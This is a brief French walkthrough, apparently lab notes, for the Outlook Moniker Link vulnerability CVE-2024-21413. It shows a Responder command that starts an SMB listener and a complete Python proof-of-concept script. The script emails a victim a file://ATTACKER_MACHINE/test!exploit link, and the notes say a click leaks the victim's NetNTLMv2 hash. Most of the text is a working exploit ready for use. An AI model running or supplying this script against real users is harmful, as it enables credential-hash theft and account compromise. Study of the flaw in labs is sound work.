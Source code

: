 ## Moniker Link (CVE-2024-21413)

Créer un écouteur SMB sur notre attaque machine
```sh
sudo responder -I eth0
```

Utilisez le PoC

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.com' # Replace with your sender email address
receiver_email = 'victim@monikerlink.com' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>""" # Replce the ATTACKER_MACHINE

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

Le script affichera `Email delivered` lorsque l'e-mail aura été envoyé. 

Et une fois quel aura cliquer sur le lien nous receverons son hash NetNTMLv2